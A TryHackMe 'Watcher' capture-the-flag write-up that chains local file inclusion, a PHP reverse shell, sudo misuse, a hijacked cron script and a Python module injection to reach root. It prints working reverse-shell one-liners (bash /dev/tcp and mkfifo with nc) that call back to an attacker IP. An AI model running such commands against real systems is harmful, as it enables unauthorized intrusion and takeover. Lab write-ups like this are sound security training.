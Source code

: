 
# Watcher THM - Writeup

##  Information Gathering

Performed port and services scanning:
```bash
nmap -sV -Pn -p- -sS -T5 <target-ip> -oN enum-srv.txt
```

**Scan Results:**
```
PORT      STATE    SERVICE   VERSION
21/tcp    open     ftp       vsftpd 3.0.3
22/tcp    open     ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http      Apache httpd 2.4.29 ((Ubuntu))
8021/tcp  filtered ftp-proxy
... (many filtered unknown ports)
```

![](images/main-page.png)

Checked `robots.txt` and found restricted files:
![](images/robots.txt.png)

Read `/flag.txt` and got the first flag:
![](images/flag-1.png)

Tried bypassing forbidden file using directory traversal (unsuccessful):
![](images/way-1.png)

Found possible LFI in `post.php?post=`:
```http
http://watcher.thm/post.php?post=secret_file_do_not_read.txt
```
![](images/file-2.png)

Retrieved FTP credentials and confirmed access:
![](images/ftp-gain-access.png)

Got the second flag:
![](images/flag2.png)

##  Initial Shell Access

Uploaded a malicious PHP file to get a reverse shell:
![](images/rev-1.png)

Triggered the shell:
```http
http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php
```
![](images/burp-shell.png)

Got reverse shell:
![](images/gain-shell.png)

Obtained flag 3:
![](images/flag3.png)

##  Privilege Escalation to Toby

Inspected `/home/` and found user `toby` with `flag_4.txt` but permission denied:
```bash
cat flag_4.txt
```

Checked sudo permissions:
```bash
sudo -l
```
Output:
```
User www-data may run the following commands on watcher:
(toby) NOPASSWD: ALL
```

Switched to Toby using sudo:
```bash
sudo -u toby /bin/bash
```
![](images/toby-access.png)
![](images/flag4.png)

##  Escalating to Mat 

Found a note in Toby's home:
```
Hi Toby, I've got the cron jobs set up now so don't worry about getting that done. — Mat
```

Inspected scheduled cron jobs:
```bash
cat /etc/crontab
```
![](images/cron-jobs.png)

Found script `/home/toby/jobs/cow.sh` executed by Mat. Replaced it with reverse shell:
```bash
echo "bash -i >& /dev/tcp/10.23.110.59/4000 0>&1" > cow.sh
```
Got reverse shell as Mat:
![](images/mat-shell.png)
Got flag 5:
![](images/flag_5.png)

##  Escalating to Will 

Found a note indicating Will uses Python scripts:
![](images/mat-note.png)

Found and analyzed the script:
```python
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])
whitelist = ["ls -lah", "id", "cat /etc/passwd"]
if cmd not in whitelist:
    print("Invalid command!")
    exit()
os.system(cmd)
```
Sudo permission for this script:
```bash
(will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

Injected reverse shell in `cmd.py`:
```python
import os
os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.23.110.59 5000 >/tmp/f')
```
![](images/will-step-1.png)
Gained shell as Will:
![](images/will-gain-acess.png)
Got flag 6:
![](images/flag_6.png)

##  Gaining Root

Found backups directory containing SSH private key:
![](images/ssh-key.png)

I tried to use the SSH private key directly, but it failed because the key was encoded in base64 format.
So I first decoded it by using
```bash
echo key | base64 -d > key
chmod 600 key
ssh -i key ubuntu@watcher.thm
```
![](images/ssh-key-after.png)
![](images/rooot.png)

Boooooom.Got final flag:
![](images/flag_77777777777777777.png)

---